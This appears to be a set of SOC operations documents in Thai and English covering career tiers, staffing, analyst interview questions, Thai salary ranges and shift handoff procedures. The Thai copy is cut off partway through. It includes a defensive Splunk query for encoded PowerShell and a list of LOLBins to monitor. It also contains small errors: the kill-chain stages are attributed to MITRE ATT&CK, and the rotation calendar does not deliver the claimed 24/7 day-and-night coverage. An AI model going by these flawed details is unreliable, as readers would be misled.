## 3. เส้นทางความก้าวหน้าในอาชีพ (Career Progression Path)

```mermaid
graph LR
    T1[Tier 1 Analyst] -->|1-2 ปี| T2[Tier 2 Responder]
    T2 -->|2-3 ปี| T3[Tier 3 Hunter]
    T2 -->|2-3 ปี| DE[Detection Engineer]
    T2 -->|2-3 ปี| TI[Threat Intel Analyst]
    T3 -->|3-5 ปี| Lead[หัวหน้าทีม]
    DE -->|3-5 ปี| Lead
    TI -->|3-5 ปี| Lead
    Lead -->|5+ ปี| MGR[ผู้จัดการ SOC]
    MGR -->|7+ ปี| CISO[CISO]
```

## 4. แนวทางจำนวนบุคลากร (Recommended Staffing Model)

| ขนาด SOC | Tier 1 | Tier 2 | Tier 3 | วิศวกร | TI | ผู้จัดการ | รวม |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| **เล็ก** (<500 alerts/วัน) | 2 | 1 | 0 | 1 (แชร์) | 0 | 1 | 5 |
| **กลาง** (500-2000/วัน) | 4 | 2 | 1 | 1 | 1 | 1 | 10 |
| **ใหญ่** (>2000/วัน, 24/7) | 8 | 4 | 2 | 2 | 1 | 1 | 18 |

## 5. คำถามสัมภาษณ์แต่ละ Tier

### ผู้สมัคร Tier 1
| # | คำถาม | คำตอบที่คาดหวัง |
|:---|:---|:---|
| 1 | True Positive กับ False Positive ต่างกันอย่างไร? | TP = ภัยจริงที่ยืนยัน; FP = alert trigger แต่ไม่ใช่ภัยจริง |
| 2 | เห็น failed login 50 ครั้งจาก IP เดียว คุณทำอะไร? | ตรวจสอบว่าเป็น brute force ไหม, verify source IP, ตรวจ account lock, escalate ถ้ายืนยัน |
| 3 | TLP:RED คืออะไร? | จำกัดเฉพาะผู้เข้าร่วม — ห้ามแชร์ |
| 4 | อธิบายขั้นตอน triage phishing alert | ตรวจ sender, links, attachments, headers, ตรวจว่า user คลิกไหม, ตรวจ IOCs ใน SIEM |
| 5 | ต้องดู log อะไรเมื่อมี lateral movement? | Event IDs 4624/4625 (logon), 5140 (share), Sysmon, EDR |

### ผู้สมัคร Tier 2
| # | คำถาม | คำตอบที่คาดหวัง |
|:---|:---|:---|
| 1 | สืบสวน C2 callback อย่างไร? | วิเคราะห์ network traffic (beaconing), ดู process tree, หา parent process, isolate host |
| 2 | อธิบาย MITRE ATT&CK kill chain | Recon → Weaponize → Deliver → Exploit → Install → C2 → Actions on Objectives |
| 3 | เมื่อไรควร isolate vs. monitoring? | Isolate: ยืนยัน malware, C2 active, data exfil. Monitor: สงสัยแต่ยังไม่ยืนยัน |
| 4 | เขียน Splunk query หา PowerShell encoded | `index=sysmon EventCode=1 CommandLine="*-enc*" OR CommandLine="*encodedcommand*"` |
| 5 | หา blast radius ของ compromised account อย่างไร? | ตรวจ auth logs ว่า login ที่ไหน, file access, email rules, AD changes |

### ผู้สมัคร Tier 3
| # | คำถาม | คำตอบที่คาดหวัง |
|:---|:---|:---|
| 1 | อธิบาย methodology ในการ threat hunting | Hypothesis → data collection → analysis → findings → detection rule creation |
| 2 | ตรวจจับ living-off-the-land attacks อย่างไร? | Monitor LOLBins (certutil, mshta, rundll32), parent-child process anomalies |
| 3 | อธิบาย malware analysis workflow | Sandbox → static (strings, imports, PE) → dynamic (behavior, C2) → YARA rule |
| 4 | สร้าง Sigma rule จากผลสืบสวนอย่างไร? | ระบุ log source, กำหนด detection logic, set level/status, ทดสอบ FP |
| 5 | ตรวจจับ DNS tunneling อย่างไร? | Subdomain ยาว, query volume สูงไปยัง domain เดียว, entropy analysis |

## 6. Skills Matrix & แผนฝึกอบรม

| ทักษะ | T1 ต้องมี | T2 ต้องมี | T3 ต้องมี | แหล่งฝึก |
|:---|:---:|:---:|:---:|:---|
| SIEM queries (พื้นฐาน) | ✅ | ✅ | ✅ | ฝึกอบรมภายใน |
| SIEM queries (ขั้นสูง) | ❌ | ✅ | ✅ | Splunk/Elastic cert |
| Networking (TCP/IP, DNS) | ✅ | ✅ | ✅ | CompTIA Network+ |
| Log analysis | ✅ | ✅ | ✅ | SANS SEC555 |
| Incident Response | พื้นฐาน | ✅ | ✅ | GCIH / CySA+ |
| Forensics | ❌ | พื้นฐาน | ✅ | GCFA / SANS FOR508 |
| Malware analysis | ❌ | ❌ | ✅ | GREM / SANS FOR610 |
| Threat hunting | ❌ | ❌ | ✅ | SANS FOR508 |
| Detection engineering | ❌ | พื้นฐาน | ✅ | ภายใน + Sigma docs |
| Scripting (Python/PS) | ❌ | พื้นฐาน | ✅ | เรียนด้วยตัวเอง |
| MITRE ATT&CK | รับรู้ | ใช้งานได้ | เชี่ยวชาญ | ATT&CK training |

## 7. เกณฑ์เงินเดือน (ตลาดไทย, 2026)

> **หมายเหตุ**: ช่วงเป็นค่าประมาณ แตกต่างตามขนาดองค์กร อุตสาหกรรม และที่ตั้ง

| ตำแหน่ง | ประสบการณ์ | ช่วงรายเดือน (บาท) | Cert ที่เพิ่มมูลค่า |
|:---|:---|:---|:---|
| T1 Analyst | 0-2 ปี | 25,000 – 45,000 | CompTIA Security+, CySA+ |
| T2 Analyst | 2-4 ปี | 40,000 – 70,000 | GCIH, CySA+, OSCP |
| T3 Analyst | 4-7 ปี | 60,000 – 100,000 | GCFA, GREM, OSCP |
| Detection Engineer | 3-5 ปี | 50,000 – 90,000 | Sigma/YARA expertise |
| TI Analyst | 3-5 ปี | 45,000 – 80,000 | CTIA, OSINT certs |
| SOC Manager | 5-10 ปี | 80,000 – 150,000 | CISSP, CISM |

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [มาตรฐานการส่งมอบกะ](Shift_Handoff.th.md)
-   [ตัวชี้วัด SOC](SOC_Metrics.th.md)
-   [หลักสูตรฝึกอบรม Analyst](../10_Training_Onboarding/Analyst_Onboarding_Path.th.md)
-   [แบบฟอร์มตรวจสอบการฝึกอบรม](../10_Training_Onboarding/Training_Checklist.th.md)
-   [แบบประเมิน SOC](SOC_Assessment_Checklist.th.md)

## References
-   [NIST SP 800-61r2 (Incident Handling Guide)](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
-   [SOC-CMM — SOC Capability Maturity Model](https://www.soc-cmm.com/)
-   [SANS SOC Survey & Analyst Reports](https://www.sans.org/white-papers/soc-survey/)
-   [MITRE ATT&CK — Threat-Informed Defense](https://attack.mitre.org/)
-   [FIRST CSIRT Services Framework](https://www.first.org/standards/frameworks/csirts/csirt_services_framework_v2.1)


---

## File: 06_Operations_Management/Shift_Handoff.en.md

# Shift Operations & Handoff Standard

This document defines the standard procedures for managing SOC shifts and ensuring **zero-drop operational continuity** during shift handovers. A disciplined handoff process prevents incidents from falling through the cracks and ensures consistent service quality 24/7.

---

## 1. Shift Structure

### 1.1 Standard Rotation (24/7 — 8-Hour Shifts)

| Shift | Hours | Duration | Peak Alert Volume |
|:---|:---:|:---:|:---|
| ☀️ **Morning** | 08:00 – 16:00 | 8 hours | High (business hours, phishing, user reports) |
| 🌅 **Afternoon** | 16:00 – 00:00 | 8 hours | Medium (automated scans, overseas attackers) |
| 🌙 **Night** | 00:00 – 08:00 | 8 hours | Low–Medium (botnet activity, scheduled jobs) |

> ⚠️ **30-minute overlap** is required between shifts for proper handoff (e.g., outgoing shift stays 08:00–08:30 with incoming shift).

### 1.2 Alternative Rotation: 4-On-4-Off (12-Hour Shifts)

A compressed schedule using **2 shifts × 12 hours** with 4 consecutive working days followed by 4 days off. This model provides 24/7 coverage with fewer handoffs per day.

| Shift | Hours | Duration | Peak Alert Volume |
|:---|:---:|:---:|:---|
| ☀️ **Day Shift** | 08:00 – 20:00 | 12 hours | High (full business hours + early evening) |
| 🌙 **Night Shift** | 20:00 – 08:00 | 12 hours | Low–Medium (botnet, overnight scanning, APT) |

> ⚠️ **30-minute overlap** at 07:30–08:00 and 19:30–20:00 for handoff.

#### Team Rotation Calendar (4-Week Cycle)

Four teams (**Alpha, Bravo, Charlie, Delta**) rotate to ensure 24/7 coverage:

| Week | Mon | Tue | Wed | Thu | Fri | Sat | Sun |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
| **Week 1** | 🅰️D | 🅰️D | 🅰️D | 🅰️D | 🅱️D | 🅱️D | 🅱️D |
| **Week 2** | 🅱️D | 🅰️N | 🅰️N | 🅰️N | 🅰️N | 🅱️N | 🅱️N |
| **Week 3** | 🅱️N | 🅱️N | 🅲D | 🅲D | 🅲D | 🅲D | 🅳D |
| **Week 4** | 🅳D | 🅳D | 🅳D | 🅲N | 🅲N | 🅲N | 🅲N |

*D = Day (08:00–20:00), N = Night (20:00–08:00) — Teams not shown are on their 4 days off.*

> **Note**: Teams on days off serve as **on-call backup** for the first 2 of their 4 off-days.

#### 4on4off vs 3-Shift Comparison

| Criteria | 3-Shift (8h) | 4on4off (12h) |
|:---|:---|:---|
| **Shifts per day** | 3 | 2 |
| **Handoffs per day** | 3 | 2 (fewer = less info loss) |
| **Hours per shift** | 8 hours | 12 hours |
| **Days on / off** | 5 on / 2 off | 4 on / 4 off |
| **Minimum FTE (24/7)** | 12–15 | 8–10 |
| **Fatigue risk** | Lower per shift | Higher per shift (mitigate with breaks) |
| **Work-life balance** | Standard schedule | More consecutive days off |
| **Best for** | Large SOC, high alert volume | Mid-size SOC, cost optimization |

#### Fatigue Mitigation (12-Hour Shifts)

| Measure | Implementation |
|:---|:---|
| **Mandatory breaks** | 30-min meal break + 15-min break every 3 hours |
| **Task rotation** | Switch between triage/investigation every 4 hours |
| **No consecutive blocks** | Max 4 consecutive 12h shifts before mandatory 4 days off |
| **Night-to-day transition** | Minimum 4 days off between switching Night → Day |
| **Workload cap** | Max 25 alerts per analyst per 12h shift |

### 1.3 Coverage Models

| Model | Staffing | Best For | Minimum FTE |
|:---|:---|:---|:---:|
| **24/7 Full** | 3 shifts × 365 days | Large SOC, critical infrastructure | 12–15 |
| **24/7 (4on4off)** | 2 shifts × 4 teams | Mid-size SOC, cost optimization | 8–10 |
| **16/5 + On-Call** | 2 shifts weekdays + on-call nights/weekends | Mid-size SOC | 6–8 |
| **8/5 + On-Call** | Business hours + on-call | Small SOC, startup phase | 3–4 |
| **8/5 + MSSP** | Business hours in-house + MSSP after hours | Hybrid SOC | 2–3 + MSSP |

> 📚 **Detailed staffing**: [SOC Capacity Planning](SOC_Capacity_Planning.en.md) · [Team Structure](SOC_Team_Structure.en.md)

### 1.4 Shift Roles

| Role | Responsibilities |
|:---|:---|
| **Shift Lead** | Overall shift ownership, escalation decisions, handoff briefing |
| **Tier 1 Analyst** | Alert triage, initial classification, queue management |
| **Tier 2 Analyst** | Investigation, containment, playbook execution |
| **Tier 3 / Hunt** | Threat hunting, advanced forensics, detection engineering |

---

## 2. Handoff Procedure

```mermaid
graph TD
    Start["⏰ T-30min: Handoff Window Opens"] --> Review["📋 Outgoing: Complete Shift Log"]
    Review --> Prepare["📝 Outgoing: Prepare Handoff Report"]
    Prepare --> Brief["🤝 Outgoing → Incoming: Verbal Briefing"]
    Brief --> Walk["🖥️ Dashboard Walkthrough"]
    Walk --> Questions{"❓ Questions?"}
    Questions -->|Yes| Clarify["💬 Clarify & Document"]
    Clarify --> Sign
    Questions -->|No| Sign["✅ Both Leads Sign Off"]
    Sign --> Incoming["🟢 Incoming Shift Takes Over"]
```

### 2.1 Handoff Meeting Agenda (30 minutes)

| Time | Activity | Owner |
|:---:|:---|:---|
| 5 min | **Active Incidents** — Status, owner, next actions | Outgoing Lead |
| 5 min | **Pending Tasks** — Investigations awaiting results, follow-ups | Outgoing Lead |
| 5 min | **System Health** — SIEM/EDR/SOAR status, degradation, outages | Outgoing Lead |
| 5 min | **Intelligence Updates** — New campaigns, IoCs, vulnerabilities | Outgoing Lead |
| 5 min | **Dashboard Walkthrough** — Open tickets, queue depth, alert trends | Outgoing Lead |
| 5 min | **Q&A + Sign-Off** — Clarification, acknowledgment | Both Leads |

### 2.2 Handoff Report Content

The **Shift Handoff Report** must include:

| Section | Content | Mandatory? |
|:---|:---|:---:|
| **Active Incidents** | Incident ID, severity, status, assigned analyst, next action | ✅ |
| **Pending Investigations** | Ticket ID, description, awaiting what, ETA | ✅ |
| **System Health** | SIEM ingestion rate, EDR agent status, feed delays | ✅ |
| **Notable Events** | Unusual patterns, emerging threats, vulnerability disclosures | ✅ |
| **Escalations** | Items escalated to management, status, response received | If applicable |
| **Change Advisories** | Planned changes (patching, config changes) that may affect alerts | If applicable |
| **Compliance Deadlines** | PDPA notifications, SLA breaches approaching | If applicable |

> 📚 **Template**: [Shift Handover Log](../11_Reporting_Templates/shift_handover.en.md)

---

## 3. Start-of-Shift Checklist

Every incoming shift must complete this checklist within the first **15 minutes**:

| # | Check | Action |
|:---:|:---|:---|
| 1 | ✅ **Read Handoff Report** | Review outgoing shift log thoroughly |
| 2 | ✅ **Check Alert Queue** | Review unassigned and unacknowledged alerts |
| 3 | ✅ **Verify System Health** | SIEM dashboard, EDR console, SOAR status |
| 4 | ✅ **Review Active Incidents** | Take ownership of assigned incidents |
| 5 | ✅ **Check Email/Chat** | Management directives, advisories, intelligence |
| 6 | ✅ **Validate On-Call Roster** | Confirm escalation contacts are available |
| 7 | ✅ **Acknowledge Handoff** | Sign off in handoff system/log |

---

## 4. End-of-Shift Checklist

Every outgoing shift must complete this checklist before departure:

| # | Check | Action |
|:---:|:---|:---|
| 1 | ✅ **Update All Tickets** | Current status, investigation notes, next steps |
| 2 | ✅ **Document Incomplete Work** | What was started, what remains, where to resume |
| 3 | ✅ **Close Resolved Tickets** | Verify resolution, add closing notes |
| 4 | ✅ **Prepare Handoff Report** | Fill all mandatory sections |
| 5 | ✅ **Conduct Verbal Briefing** | Brief incoming Shift Lead face-to-face |
| 6 | ✅ **Sign Off** | Both leads sign handoff log |

---

## 5. Communication Protocols

### 5.1 During Shift

| Channel | Use For | Response Time |
|:---|:---|:---|
| **Ticketing System** | All incident communication (audit trail) | Per SLA |
| **Chat (Teams/Slack)** | Quick coordination, FYI alerts | < 5 min |
| **Phone** | Critical escalation, time-sensitive | Immediate |
| **Email** | Non-urgent updates, reports, documentation | < 1 hour |

### 5.2 Shift Lead Responsibilities

| Responsibility | Frequency |
|:---|:---|
| Monitor queue depth and analyst workload | Hourly |
| Triage and assign incoming alerts/tickets | Continuous |
| Approve containment actions (High/Critical) | As needed |
| Report system issues to IT/Engineering | As needed |
| Document notable events for handoff | End of shift |
| Conduct handoff briefing | End of shift |

---

## 6. Fatigue Management

SOC analyst burnout is a significant operational risk. The following measures help maintain alertness and quality:

| Measure | Implementation |
|:---|:---|
| **Rotation frequency** | Rotate shift patterns every 4–6 weeks |
| **Break schedule** | 15-min break every 2 hours during shift |
| **Task variety** | Rotate between triage, investigation, and hunt |
| **Workload balancing** | Max 15–20 alerts per analyst per shift (8h) |
| **Overtime limits** | Max 2 consecutive shift covers, escalate to management |
| **Mental health** | Access to employee assistance program (EAP) |

---

## 7. Metrics & Quality

### 7.1 Shift KPIs

| Metric | Target | Owner |
|:---|:---|:---|
| Handoff completion rate | 100% | Shift Lead |
| Queue depth at shift end | < 10 unassigned | Shift Lead |
| Average alert response time | < 10 min (MTTA) | Analyst |
| Shift report quality score | ≥ 4/5 (peer review) | SOC Manager |

### 7.2 Handoff Quality Audit

SOC Manager should conduct monthly handoff quality audits:

- [ ] All mandatory sections completed?
- [ ] Active incidents accurately described?
- [ ] System health reported?
- [ ] Verbal briefing conducted (confirmed by both leads)?
- [ ] Issues from previous shift handoffs resolved?

---

## Related Documents

- [IR Framework](../05_Incident_Response/Framework.en.md) — Master incident response lifecycle
- [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — When and how to escalate
- [SOC Metrics & KPIs](SOC_Metrics.en.md) — Performance measurement
- [SOC Team Structure](SOC_Team_Structure.en.md) — Roles and responsibilities
- [SOC Capacity Planning](SOC_Capacity_Planning.en.md) — Staffing models and budgets
- [SOC Assessment Checklist](SOC_Assessment_Checklist.en.md) — Operational readiness
- [Shift Handover Template](../11_Reporting_Templates/shift_handover.en.md) — Handoff report form

## References

- [SANS SOC Handbook](https://www.sans.org/white-papers/soc-handbook/)
- [NIST SP 800-61r2 — Incident Handling](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [MITRE 11 Strategies for a World-Class SOC](https://www.mitre.org/publications/technical-papers/11-strategies-world-class-cybersecurity-operations-center)


---

## File: 06_Operations_Management/Shift_Handoff.th.md

# มาตรฐานการปฏิบัติงานกะและการส่งมอบงาน (Shift Operations & Handoff)

เอกสารนี้กำหนดขั้นตอนมาตรฐานสำหรับการจัดการกะของ SOC และการรับประกัน **ความต่อเนื่องในการปฏิบัติงานแบบไม่มีช่องว่าง** ระหว่างการส่งมอบกะ กระบวนการส่งมอบที่มีวินัยช่วยป้องกันไม่ให้ incidents ตกหล่นและรับประกันคุณภาพบริการอย่างสม่ำเสมอตลอด 24/7

---

## 1. โครงสร้างกะ

### 1.1 การหมุนเวียนมาตรฐาน (24/7 — กะ 8 ชั่วโมง)

| กะ | เวลา | ระยะเวลา | ปริมาณ Alert สูงสุด |
|:---|:---:|:---:|:---|
| ☀️ **กะเช้า** | 08:00 – 16:00 | 8 ชม. | สูง (ชั่วโมงทำงาน, phishing, รายงานจากผู้ใช้) |
| 🌅 **กะบ่าย** | 16:00 – 00:00 | 8 ชม. | ปานกลาง (สแกนอัตโนมัติ, ผู้โจมตีต่างประเทศ) |
| 🌙 **กะดึก** | 00:00 – 08:00 | 8 ชม. | ต่ำ–ปานกลาง (botnet, งาน scheduled) |

> ⚠️ **ทับซ้อน 30 นาที** ระหว่างกะสำหรับการส่งมอบที่ถูกต้อง (เช่น กะเก่าอยู่ถึง 08:00–08:30 ร่วมกับกะใหม่)

### 1.2 การหมุนเวียนทางเลือก: 4-On-4-Off (กะ 12 ชั่วโมง)

ตารางกะแบบบีบอัดใช้ **2 กะ × 12 ชั่วโมง** โดยทำงาน 4 วันติดต่อกันแล้วหยุด 4 วัน รูปแบบนี้ให้ coverage 24/7 โดยมีการส่งมอบกะน้อยลง

| กะ | เวลา | ระยะเวลา | ปริมาณ Alert สูงสุด |
|:---|:---:|:---:|:---|
| ☀️ **กะกลางวัน** | 08:00 – 20:00 | 12 ชม. | สูง (ชั่วโมงทำการเต็ม + ช่วงเย็น) |
| 🌙 **กะกลางคืน** | 20:00 – 08:00 | 12 ชม. | ต่ำ–ปานกลาง (botnet, สแกนข้ามคืน, APT) |

> ⚠️ **ทับซ้อน 30 นาที** ที่ 07:30–08:00 และ 19:30–20:00 สำหรับส่งมอบ

#### ปฏิทินหมุนเวียนทีม (รอบ 4 สัปดาห์)

สี่ทีม (**Alpha, Bravo, Charlie, Delta**) หมุนเวียนเพื่อให้ coverage 24/7:

| สัปดาห์ | จ. | อ. | พ. | พฤ. | ศ. | ส. | อา. |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
| **สัปดาห์ 1** | 🅰️ว | 🅰️ว | 🅰️ว | 🅰️ว | 🅱️ว | 🅱️ว | 🅱️ว |
| **สัปดาห์ 2** | 🅱️ว | 🅰️ค | 🅰️ค | 🅰️ค | 🅰️ค | 🅱️ค | 🅱️ค |
| **สัปดาห์ 3** | 🅱️ค | 🅱️ค | 🅲ว | 🅲ว | 🅲ว | 🅲ว | 🅳ว |
| **สัปดาห์ 4** | 🅳ว | 🅳ว | 🅳ว | 🅲ค | 🅲ค | 🅲ค | 🅲ค |

*ว = กลางวัน (08:00–20:00), ค = กลางคืน (20:00–08:00) — ทีมที่ไม่แสดงอยู่ในวันหยุด 4 วัน*

> **หมายเหตุ**: ทีมที่หยุดจะเป็น **สำรอง on-call** ใน 2 วันแรกของวันหยุด 4 วัน

#### เปรียบเทียบ 4on4off กับ 3 กะ

| เกณฑ์ | 3 กะ (8 ชม.) | 4on4off (12 ชม.) |
|:---|:---|:---|
| **กะต่อวัน** | 3 | 2 |
| **การส่งมอบต่อวัน** | 3 | 2 (น้อยกว่า = ข้อมูลสูญหายน้อยลง) |
| **ชั่วโมงต่อกะ** | 8 ชั่วโมง | 12 ชั่วโมง |
| **วันทำงาน / วันหยุด** | 5 วัน / 2 วัน | 4 วัน / 4 วัน |
| **FTE ขั้นต่ำ (24/7)** | 12–15 | 8–10 |
| **ความเสี่ยงเหนื่อยล้า** | ต่ำกว่าต่อกะ | สูงกว่าต่อกะ (ลดด้วยการพักเบรก) |
| **สมดุลชีวิต-การทำงาน** | ตารางมาตรฐาน | วันหยุดต่อเนื่องมากกว่า |
| **เหมาะกับ** | SOC ขนาดใหญ่, alert volume สูง | SOC ขนาดกลาง, ลดต้นทุน |

#### การจัดการความเหนื่อยล้า (เฉพาะกะ 12 ชั่วโมง)

| มาตรการ | การดำเนินการ |
|:---|:---|
| **พักบังคับ** | พักกินข้าว 30 นาที + พัก 15 นาทีทุก 3 ชม. |
| **สลับงาน** | สลับระหว่าง triage / investigation ทุก 4 ชม. |
| **ไม่ทำต่อเนื่อง** | สูงสุด 4 กะ 12 ชม. ติดต่อกันก่อนหยุดบังคับ 4 วัน |
| **เปลี่ยนกะคืน → กะวัน** | หยุดอย่างน้อย 4 วันก่อนเปลี่ยนจากกะคืนเป็นกะวัน |
| **จำกัดภาระงาน** | สูงสุด 25 alerts ต่อ analyst ต่อกะ 12 ชม. |

### 1.3 รูปแบบการให้บริการ (Coverage Models)

| รูปแบบ | การจัดคน | เหมาะกับ | FTE ขั้นต่ำ |
|:---|:---|:---|:---:|
| **24/7 เต็ม** | 3 กะ × 365 วัน | SOC ขนาดใหญ่, โครงสร้างพื้นฐานสำคัญ | 12–15 |
| **24/7 (4on4off)** | 2 กะ × 4 ทีม | SOC ขนาดกลาง, ลดต้นทุน | 8–10 |
| **16/5 + เวร** | 2 กะวันจันทร์-ศุกร์ + เวรนอกเวลา | SOC ขนาดกลาง | 6–8 |
| **8/5 + เวร** | เวลาทำการ + เวร | SOC ขนาดเล็ก, ระยะเริ่มต้น | 3–4 |
| **8/5 + MSSP** | เวลาทำการ in-house + MSSP นอกเวลา | SOC แบบ Hybrid | 2–3 + MSSP |

> 📚 **รายละเอียดการจัดคน**: [การวางแผนกำลังคน SOC](SOC_Capacity_Planning.th.md) · [โครงสร้างทีม SOC](SOC_Team_Structure.th.md)

### 1.4 บทบาทในกะ

| บทบาท | ความรับผิดชอบ |
|:---|:---|
| **Shift Lead** | ดูแลกะโดยรวม, ตัดสินใจ escalation, บรีฟส่งมอบ |
| **Tier 1 Analyst** | คัดกรอง alert, จำแนกเบื้องต้น, จัดการคิว |
| **Tier 2 Analyst** | สืบสวน, containment, ปฏิบัติตาม playbook |
| **Tier 3 / Hunt** | Threat hunting, forensics ขั้นสูง, detection engineering |

---

## 2. ขั้นตอนการส่งมอบกะ

```mermaid
graph TD
    Start["⏰ T-30นาที: หน้าต่างส่งมอบเปิด"] --> Review["📋 กะเก่า: เขียน Shift Log"]
    Review --> Prepare["📝 กะเก่า: เตรียมรายงานส่งมอบ"]
    Prepare --> Brief["🤝 กะเก่า → กะใหม่: บรีฟด้วยวาจา"]
    Brief --> Walk["🖥️ Walkthrough Dashboard"]
    Walk --> Questions{"❓ มีคำถาม?"}
    Questions -->|ใช่| Clarify["💬 ชี้แจงและบันทึก"]
    Clarify --> Sign
    Questions -->|ไม่| Sign["✅ ทั้งสอง Lead ลงชื่อ"]
    Sign --> Incoming["🟢 กะใหม่เข้ารับหน้าที่"]
```

### 2.1 วาระการประชุมส่งมอบ (30 นาที)

| เวลา | กิจกรรม | ผู้นำ |
|:---:|:---|:---|
| 5 นาที | **Incidents ที่กำลังดำเนินการ** — สถานะ, เจ้าของ, ขั้นตอนถัดไป | Lead กะเก่า |
| 5 นาที | **งานที่ค้าง** — การสืบสวนที่รอผล, follow-ups | Lead กะเก่า |
| 5 นาที | **สถานะระบบ** — SIEM/EDR/SOAR, ระบบขัดข้อง, degradation | Lead กะเก่า |
| 5 นาที | **อัปเดตข่าวกรอง** — แคมเปญใหม่, IoCs, ช่องโหว่ | Lead กะเก่า |
| 5 นาที | **Walkthrough Dashboard** — ตั๋วเปิด, ความลึกของคิว, แนวโน้ม alert | Lead กะเก่า |
| 5 นาที | **ถาม-ตอบ + ลงชื่อ** — ชี้แจง, รับทราบ | ทั้งสอง Lead |

### 2.2 เนื้อหารายงานส่งมอบ

**รายงานส่งมอบกะ** ต้องประกอบด้วย:

| ส่วน | เนื้อหา | บังคับ? |
|:---|:---|:---:|
| **Incidents ที่ Active** | Incident ID, ความรุนแรง, สถานะ, analyst ที่รับผิดชอบ, ขั้นตอนถัดไป | ✅ |
| **การสืบสวนที่ค้าง** | Ticket ID, รายละเอียด, รออะไร, เวลาที่คาดว่าจะเสร็จ | ✅ |
| **สถานะระบบ** | SIEM ingestion rate, EDR agent status, feed delays | ✅ |
| **เหตุการณ์สำคัญ** | รูปแบบผิดปกติ, ภัยคุกคามเกิดใหม่, ช่องโหว่ที่ประกาศ | ✅ |
| **Escalations** | รายการที่ส่งต่อผู้บริหาร, สถานะ, การตอบกลับที่ได้รับ | ถ้ามี |
| **ประกาศการเปลี่ยนแปลง** | การ patching, การเปลี่ยนแปลง config ที่อาจกระทบ alert | ถ้ามี |
| **กำหนด Compliance** | การแจ้ง PDPA, SLA ที่ใกล้หมดเวลา | ถ้ามี |

> 📚 **เทมเพลต**: [แบบฟอร์มส่งมอบกะ](../11_Reporting_Templates/shift_handover.th.md)

---

## 3. เช็คลิสต์เริ่มกะ

กะใหม่ที่เข้ารับหน้าที่ต้องทำเช็คลิสต์นี้ให้เสร็จภายใน **15 นาทีแรก**:

| # | ตรวจสอบ | การดำเนินการ |
|:---:|:---|:---|
| 1 | ✅ **อ่านรายงานส่งมอบ** | ทบทวน shift log ของกะก่อนอย่างละเอียด |
| 2 | ✅ **ตรวจคิว Alert** | ตรวจ alert ที่ยังไม่ได้รับและยังไม่ได้มอบหมาย |
| 3 | ✅ **ตรวจสุขภาพระบบ** | SIEM dashboard, EDR console, SOAR status |
| 4 | ✅ **ทบทวน Incidents ที่ Active** | รับเป็นเจ้าของ incidents ที่ได้รับมอบหมาย |
| 5 | ✅ **ตรวจอีเมล/แชท** | คำสั่งผู้บริหาร, ประกาศ, ข่าวกรองภัยคุกคาม |
| 6 | ✅ **ตรวจรายชื่อเวร** | ยืนยันผู้ติดต่อ escalation พร้อมให้บริการ |
| 7 | ✅ **รับรองการส่งมอบ** | ลงชื่อในระบบ/บันทึกส่งมอบ |

---

## 4. เช็คลิสต์สิ้นกะ

กะที่กำลังจะออกต้องทำเช็คลิสต์นี้ให้เสร็จก่อนเลิกงาน:

| # | ตรวจสอบ | การดำเนินการ |
|:---:|:---|:---|
| 1 | ✅ **อัปเดตตั๋วทั้งหมด** | สถานะปัจจุบัน, บันทึกการสืบสวน, ขั้นตอนถัดไป |
| 2 | ✅ **บันทึกงานที่ยังไม่เสร็จ** | เริ่มอะไรไว้, เหลืออะไร, จะกลับมาตรงไหน |
| 3 | ✅ **ปิดตั๋วที่แก้ไขแล้ว** | ตรวจสอบผลการแก้ไข, เพิ่มบันทึกปิด |
| 4 | ✅ **เตรียมรายงานส่งมอบ** | กรอกทุกส่วนที่บังคับ |
| 5 | ✅ **บรีฟด้วยวาจา** | บรีฟ Shift Lead กะใหม่แบบเผชิญหน้า |
| 6 | ✅ **ลงชื่อ** | ทั้งสอง Lead ลงชื่อในบันทึกส่งมอบ |

---

## 5. โปรโตคอลการสื่อสาร

### 5.1 ระหว่างกะ

| ช่องทาง | ใช้สำหรับ | เวลาตอบ |
|:---|:---|:---|
| **ระบบ Ticketing** | การสื่อสาร incident ทั้งหมด (audit trail) | ตาม SLA |
| **แชท (Teams/Slack)** | ประสานงานด่วน, แจ้งข้อมูล | < 5 นาที |
| **โทรศัพท์** | Escalation เร่งด่วน, เรื่องไวต่อเวลา | ทันที |
| **อีเมล** | อัปเดตไม่เร่งด่วน, รายงาน, เอกสาร | < 1 ชม. |

### 5.2 ความรับผิดชอบของ Shift Lead

| ความรับผิดชอบ | ความถี่ |
|:---|:---|
| ตรวจสอบความลึกคิวและภาระงาน analyst | ทุกชั่วโมง |
| คัดกรองและมอบหมาย alert/ตั๋วที่เข้ามา | ต่อเนื่อง |
| อนุมัติ containment actions (High/Critical) | ตามความจำเป็น |
| รายงานปัญหาระบบไปยัง IT/Engineering | ตามความจำเป็น |
| บันทึกเหตุการณ์สำคัญสำหรับส่งมอบ | สิ้นกะ |
| ดำเนินการบรีฟส่งมอบ | สิ้นกะ |

---

## 6. การจัดการความเหนื่อยล้า

ความเหนื่อยล้าของ SOC analyst เป็นความเสี่ยงด้านปฏิบัติการที่สำคัญ มาตรการต่อไปนี้ช่วยรักษาความตื่นตัวและคุณภาพงาน:

| มาตรการ | การดำเนินการ |
|:---|:---|
| **ความถี่หมุนเวียน** | เปลี่ยนรูปแบบกะทุก 4–6 สัปดาห์ |
| **ตารางพัก** | พัก 15 นาทีทุก 2 ชม. ระหว่างกะ |
| **ความหลากหลายของงาน** | สลับระหว่าง triage, investigation, และ hunt |
| **สมดุลภาระงาน** | สูงสุด 15–20 alerts ต่อ analyst ต่อกะ (8 ชม.) |
| **จำกัดการทำ OT** | สูงสุด 2 กะต่อเนื่อง, แจ้งผู้บริหารหากเกิน |
| **สุขภาพจิต** | เข้าถึงโปรแกรมช่วยเหลือพนักงาน (EAP) |

---

## 7. ตัวชี้วัดและคุณภาพ

### 7.1 KPIs ของกะ

| ตัวชี้วัด | เป้าหมาย | ผู้รับผิดชอบ |
|:---|:---|:---|
| อัตราส่งมอบสำเร็จ | 100% | Shift Lead |
| ความลึกคิวตอนสิ้นกะ | < 10 ที่ยังไม่มอบหมาย | Shift Lead |
| เวลาตอบสนอง alert เฉลี่ย | < 10 นาที (MTTA) | Analyst |
